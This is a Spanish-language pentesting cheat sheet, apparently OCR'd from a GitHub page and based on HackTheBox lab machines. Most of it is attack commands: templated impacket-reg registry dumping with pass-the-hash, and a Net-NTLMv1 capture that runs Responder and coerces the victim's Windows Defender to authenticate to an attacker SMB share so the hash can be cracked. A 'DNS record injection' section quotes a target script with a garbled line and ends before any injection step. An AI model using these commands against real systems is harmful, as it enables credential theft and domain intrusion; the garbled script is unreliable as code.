 ## Dumpear registros

Podemos usar la herramienta `impacket-reg`:
### Con NT hash

```shell
impacket-reg <DOMINIO>/<USUARIO>@<IP> -hashes :<NTHASH> query -keyName 'HKU'
```

### Con contraseña

```shell
impacket-reg <DOMINIO>/<USUARIO>:<CONTRASEÑA>@<IP> query -keyName 'HKU'
```

## Net-NTLMv1

Si tenemos una máquina que trabaja con este tipo de hashes podemos hacer lo siguiente:

- En la máquina de atacante:

```shell
responder -I tun0 --lm
```

- En la máquina víctima:

```powershell
cd 'C:\Program Files\Windows Defender'
.\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.18\share\file
```

Esto reportará un hash en el responder que se puede tratar de crackear.

## Inyectar un DNS record

Tenemos este script en powershell

```powershell
# Check web server status. Scheduled to run every 5min

Import-Module ActiveDirectory

foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*") {

try {

$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials

if(.StatusCode -ne 200) {

Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"

}

} catch {}

}
```
